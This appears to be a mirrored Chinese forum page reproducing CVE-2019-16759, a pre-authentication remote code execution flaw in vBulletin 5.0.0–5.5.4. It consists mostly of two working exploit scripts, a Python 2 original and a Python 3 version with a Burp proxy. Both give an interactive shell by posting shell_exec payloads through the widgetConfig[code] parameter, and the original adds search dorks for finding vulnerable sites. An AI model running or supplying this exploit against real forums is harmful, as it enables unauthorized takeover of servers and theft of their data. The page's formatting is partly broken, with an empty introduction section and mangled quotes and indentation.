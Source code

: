# （CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit

> 原文：[https://www.zhihuifly.com/t/topic/3218](https://www.zhihuifly.com/t/topic/3218)

# （CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit

## 一、漏洞简介

## 二、漏洞影响

影响版本：vBulletin 5.0.0~5.5.4

## 三、复现过程

```
poc如下:

#!/usr/bin/python

# vBulletin 5.x 0day pre-auth RCE exploit

# This should work on all versions from 5.0.0 till 5.5.4

# Google Dorks:

# - site:*.vbulletin.net

# - “Powered by vBulletin Version 5.5.4”

import requests

import sys

if len(sys.argv) != 2:

sys.exit(“Usage: %s <URL to vBulletin>” % sys.argv[0])

params = {“routestring”:“ajax/render/widget_php”}

while True:

```
try:

     cmd = raw_input("vBulletin$ ")

     params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"

     r = requests.post(url = sys.argv[1], data = params)

     if r.status_code == 200:

          print r.text

     else:

          sys.exit("Exploit failed! :(")

except KeyboardInterrupt:

     sys.exit(" Closing shell...")

except Exception, e:

     sys.exit(str(e)) 
``` 
```

将poc代码修改为python3使用的代码，并添加代理使用burpsuite抓包。修改的poc代码如下：

```
# -*-coding:utf-8 -*-

import requests

import sys

if len(sys.argv) != 2:

sys.exit(“Usage: %s <URL to vBulletin>” % sys.argv[0])

proxies ={

“http”:“[http://127.0.0.1:8080/](http://127.0.0.1:8080/)”

}

params = {“routestring”:“ajax/render/widget_php”}

while True:

try:

cmd = input(">>>Shell= “)

params[“widgetConfig[code]”] = “echo shell_exec(’”+cmd+”’); exit;"

r = requests.post(url = sys.argv[1], data = params, proxies=proxies)

if r.status_code == 200:

print(r.text)

```
 else:
           sys.exit("Exploit failed! :(")
 except KeyboardInterrupt:
      sys.exit("\nClosing shell...")
 except Exception as e:
      sys.exit(str(e)) 
``` 
```

远程代码执行漏洞的触发点是未经过验证的用户通过向index.php发送routestring参数，当routesting参数是ajax/render/widget_php，通过widgetConfig[code]执行远程代码，格式为echo shell_exec('"+cmd+"'); exit;

![image](img/63bdb93855d69e47a2b7d6b355405e43.png)